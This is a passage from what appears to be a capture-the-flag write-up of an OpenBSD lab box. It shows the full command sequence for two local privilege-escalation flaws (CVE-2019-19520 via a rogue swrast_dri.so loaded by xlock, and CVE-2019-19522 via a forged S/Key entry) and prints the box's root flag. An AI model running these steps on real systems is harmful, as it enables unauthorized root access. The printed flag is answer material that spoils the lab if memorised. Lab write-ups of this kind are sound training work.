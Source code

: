 We then compile it and run the command to get access to the `auth` group. *As
the author of the box implemented so cleanup script the commands needs to be run
"quickly"*:

    :::text
    openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c

    Personal note: The two command need to be "quickly run"

    openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
    [1] 42553
    openkeys$ _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
    env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
    openkeys$ id
    uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)

As we are now in the `auth` group we can use the CVE-2019-19522.


## CVE-2019-19522

We just put the command as specified in the article and get the root flag (the
Password is not printed so I put it between bracket).

    :::text
    openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
    openkeys$ chmod 0600 /etc/skey/root
    openkeys$ env -i TERM=vt220 su -l -a skey
    otp-md5 99 obsd91335
    S/Key Password: [EGG LARD GROW HOG DRAG LAIN]
    openkeys# id
    uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
    openkeys# cat /root/root.txt
    f3a553b1697050ae885e7c02dbfc6efa

# Wrapping up

This box was quit easy once the [qualys article](https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt)
was found. I was hoping for more specific OpenBSD content. Nevertheless this
was a fun box to root. I will probably recommend this box to beginners.

